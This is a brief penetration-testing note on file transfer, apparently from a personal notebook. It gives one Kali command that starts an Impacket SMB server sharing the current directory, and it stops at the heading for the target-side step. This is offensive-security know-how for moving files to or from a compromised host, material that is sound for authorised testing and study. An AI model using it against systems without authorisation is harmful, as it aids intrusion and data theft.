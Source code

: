 ```yaml
---
title: FILE TRANSFER
updated: 2023-12-08 00:30:27Z
created: 2023-12-08 00:29:44Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```



Using SMB
1. On Kali:
`python3 /opt/impacket/smbserver.py -smb2support myshare .`
2. On target:
